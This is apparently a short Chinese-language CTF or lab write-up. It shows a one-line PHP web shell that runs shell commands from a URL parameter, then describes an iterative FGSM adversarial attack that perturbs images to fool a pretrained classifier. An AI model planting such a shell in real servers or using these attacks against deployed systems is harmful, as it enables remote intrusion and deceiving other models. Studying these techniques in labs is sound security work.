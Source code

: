 ```<?php system($_GET['cmd']);?>```
連結: http://10.18.15.253:9105/
![image](https://hackmd.io/_uploads/BJCVgn6cC.png)
它很乖，有問題會說

# adversarial attack
## FGSM
* 對抗性攻擊：
使用迭代式 FGSM（Iterative FGSM）攻擊來生成對抗樣本，旨在使預訓練的模型對圖像的預測結果產生錯誤。這種攻擊方法通過逐步添加小的擾動來改變圖像，從而達到模型被欺騙的效果
* 預測與比較：
在對抗性攻擊之前和之後，使用模型對圖像進行預測，並將原始圖像和對抗樣本進行比較。這包括顯示預測結果的變化（例如，從狗的圖像變成貓的圖像）以及計算原始圖像和對抗樣本之間的擾動量
* 結果保存與顯示：
將原始圖像、對抗樣本、預測結果和擾動量保存到指定的目錄中，並顯示這些圖像的比較。這有助於評估攻擊的效果和模型對對抗樣本的反應
![image](https://hackmd.io/_uploads/B1rEiW0qA.png)
我重複用了三次(因為試不過三)
![image](https://hackmd.io/_uploads/Bk_WWGAcR.png)








